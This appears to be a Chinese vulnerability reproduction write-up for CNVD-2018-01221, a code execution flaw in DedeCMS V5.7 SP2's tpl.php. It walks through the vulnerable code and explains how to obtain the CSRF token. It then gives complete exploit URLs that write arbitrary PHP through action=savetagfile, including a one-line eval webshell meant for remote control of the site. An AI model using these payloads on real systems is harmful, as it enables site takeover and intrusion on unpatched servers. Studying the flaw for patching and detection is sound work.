# （CNVD-2018-01221）DedeCMS V5.7 SP2 存在代码执行漏洞

> 原文：[http://book.iwonder.run/0day/Dedecms/CNVD-2018-01221.html](http://book.iwonder.run/0day/Dedecms/CNVD-2018-01221.html)

## 一、漏洞简介

DedeCMS V5.7 SP2 版本中 tpl.php 存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取 webshell

## 二、漏洞影响

## 三、复现过程

需要登录后台

根据公开的漏洞知道 tpl.php 里面 251-281 行存在代码执行漏洞，打开 tpl.php 文件

![image](img/2816f11eb3a05b9e222c89b6b840909d.png)

### 代码分析

```
(1)此处定义了一个 savetagfile 的函数，首先做一个判断，参数“action”是否等于 savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个 csrf 检验的函数，我们需要加上 token 来绕过，token 是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见 https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数 filename 不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php 结尾。
(4)preg_replace 的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname 的值为 moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content 里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个 csrf 防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿 webshell 了 
```

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取 token 了，要怎么才能获取到 token 呢？我们再去 tpl.php 里看一下，发现 action 的参数有很多，比如 del，upoladok，edit，upload 等等，但只有传入 upload 的时候页面才会回显正常，而其他的都会显示 token 异常，所以只能通过 action=upload 来获取 token。

### 漏洞复现

获取 token

```
http://0-sec.org/dede/tpl.php?action=upload 
```

![image](img/0e28c19551b151b52364129ca0191b01.png)

然后查看网页源代码，找到 token

![image](img/8e7af04fda385acc33203a67584cc6df.png)

构造 payload 如下

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的 token) 
```

访问了成功写入

![image](img/8cd81184b160b2dde051542a01a37150.png)

访问写入的文件

```
http://0-sec.org/include/taglib/（你上传的文件名）.lib.php 
```

![image](img/9cf9d5b0943edf9f1dcc76b6c62628eb.png)

也可以构造一句话木马 payload

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929 
```

![image](img/383c17b39fa0b4f07711d969885af42b.png)

